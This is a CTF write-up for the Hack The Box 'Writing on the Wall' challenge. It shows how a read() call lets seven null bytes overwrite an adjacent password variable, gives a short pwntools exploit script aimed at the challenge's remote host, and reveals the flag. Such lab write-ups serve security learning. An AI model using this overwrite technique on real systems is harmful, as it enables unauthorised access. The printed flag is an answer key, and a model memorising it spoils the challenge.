 # Writing on the Wall
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d24cac08-522a-4ee3-8295-b10a354eb6eb)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Out-of-Bound (OOB) Write.
3. read() vuln.
4. Local variable overwrite.

## DESCRIPTION:
<p align="justify">As you approach a password-protected door, a sense of uncertainty envelops you—no clues, no hints. Yet, just as confusion takes hold, your gaze locks onto cryptic markings adorning the nearby wall. Could this be the elusive password, waiting to unveil the door's secrets?</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3ee7ab91-a225-49b5-905c-4efbfa5c2190)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2178fd41-209e-4d55-b1af-c710fa829ec6)


2. Upon reviewing the decompiled code in ghidra, we can clearly spot the vuln at the read() usage. It introduced a OOB vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cb41ecaf-6ff5-44d2-95a3-a917fc690d96)


3. It's quite straightforward then.
4. Reviewing the stack, seems the position of **password** is adjacent below **buffer**. Hence, hitting RBP shall overwrite **password**.
5. Remember about read() vuln, it reads data until it meet a NULL byte.
6. So then, utilizing the OOB could overwrite the **password** value entirely.
7. The flow is to pass 7 bytes of `\x00`, so this should happen:

```
buffer[6]
password = xxxxxxxxxx

read() --> we passed "\x00" * 7

# password is now overwritten
passowrd = 0000000
buffer = 0000000

strcmp(buffer,password) --> is comparing 0 and 0, shall resulting to true.
```

8. Great! here's the crafted exploit script.

> SCRIPT

```py
from pwn import *

exe = './writing_on_the_wall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

# sh = process(exe)
sh = remote('94.237.61.226', 48898)

sh.sendline(b'\x00' * 7)

sh.interactive()
```

> REMOTE TEST

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fe79492f-ec2c-48a2-aa1e-fd400e38fa01)


9. We've pwned it!

## FLAG

```
HTB{4n0th3r_br1ck_0n_th3_w4ll}
```
